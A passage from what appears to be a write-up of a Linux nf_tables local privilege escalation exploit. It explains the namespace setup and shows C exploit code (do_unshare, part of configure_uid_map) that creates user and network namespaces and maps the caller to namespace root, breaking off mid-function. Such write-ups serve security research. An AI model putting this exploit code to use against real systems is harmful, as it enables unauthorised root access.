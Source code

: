 To trigger the bug we need to set up a certain network environment and usernamespaces.

##### 5.1.1.1. Namespaces

For the LPE exploit, we need the unprivileged-user namespaces option set to access nf\_tables. This should be enabled by default on major distro's like Debian and Ubuntu. As such, those distrobutions have a bigger attack surface than distro's which do not allow unprivileged usernamespaces. This can be checked using `sysctl kernel.unprivileged_userns_clone`, and `1` means it is enabled:

```bash
$ sysctl kernel.unprivileged_userns_clone
kernel.unprivileged_userns_clone = 1
```

Copy

Codeblock 5.1.1.1.1: The CLI command for checking if unprivileged user namespaces are enabled.

We create the required user and network namespaces in the exploit using:

```c
static void do_unshare()
{
    int retv;

    printf("[*] creating user namespace (CLONE_NEWUSER)...\n");

	// do unshare seperately to make debugging easier
    retv = unshare(CLONE_NEWUSER);
	if (retv == -1) {
        perror("unshare(CLONE_NEWUSER)");
        exit(EXIT_FAILURE);
    }

    printf("[*] creating network namespace (CLONE_NEWNET)...\n");

    retv = unshare(CLONE_NEWNET);
    if (retv == -1)
	{
		perror("unshare(CLONE_NEWNET)");
		exit(EXIT_FAILURE);
	}
}
```

Copy

Codeblock 5.1.1.1.2: The `do_unshare()` exploit function written in C, which creates the user and network namespaces.

Afterwards, we give ourselves namespace root access by setting UID/GID mappings using:

```c
static void configure_uid_map(uid_t old_uid, gid_t old_gid)
{
    char uid_map[128];
    char gid_map[128];

    printf("[*] setting up UID namespace...\n");

    sprintf(uid_map, "0 %d 1\n", old_uid);
    sprintf(gid_map, "0 %d 1\n", old_gid);

    // write the uid/gid mappings. setgroups = "deny" to prevent permission error
    PRINTF_VERBOSE("[*] mapping uid %d to namespace uid 0...\n", old_uid);
    write_file("/proc/self/uid_map", uid_map, strlen(uid_map), 0);

    PRINTF_VERBOSE("[*] denying namespace rights to set user groups...\n");
    write_file("/proc/self/setgroups", "deny", strlen("deny"), 0);
```